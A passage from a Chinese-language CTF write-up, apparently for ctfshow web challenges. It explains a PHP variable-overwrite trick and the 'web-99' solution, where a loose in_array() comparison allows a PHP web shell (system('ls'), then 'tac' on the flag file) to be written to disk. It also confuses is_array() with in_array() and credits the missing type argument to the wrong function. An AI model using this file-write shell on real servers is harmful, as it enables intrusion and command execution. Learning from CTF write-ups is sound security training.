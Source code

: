 解释一下\$_GET?$_GET=&$_POST:'flag';

如果get传入了一个值，就要用post传入的值覆盖掉,否则get传不进去

highlight_file(\$_GET['HTTP_FLAG']=='flag'?$flag:\__FILE__);

如果HTTP_FLAG通过get方式传入一个flag，就打开flag这个文件

所以POST：HTTP_FLAG=flag；GET随便传什么都行.

![image-20240409215642596](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404092156711.png)

------

### web-99

```
highlight_file(__FILE__);
$allow = array();                //设置为数组
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));        //向数组里面插入随机数
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
 
?> 
```

函数in_array()第三个参数

is_array()可以判断一个值是否在数组中。

in_array(value,array,type) value ：要搜索的值

array ： 被搜索的数组

type ： 类型，true全等 ，false非全等（默认）

file_put_contents() 函数把一个字符串写入文件中。f

语法：

```
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
filename： 必需。规定要写入数据的文件。 如果文件不存在，则创建一个新文件。 data： 必需。规定要写入文件的数据。可以是字符串、数组或数据流。
```

GET传入n=1.php

这题file_put_contents() 函数没有设置第三个参数，所以1.php和数字1比较时，1.php会转化为1再和1比较， 满足条件.

接着POST：content=<?php system("ls");?> 传入php代码到1.php中，然后访问1.php发现flag


查看flag，POST：content=<?php system("tac flag36d.php");?>

![image-20240410192315875](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404101923040.png)


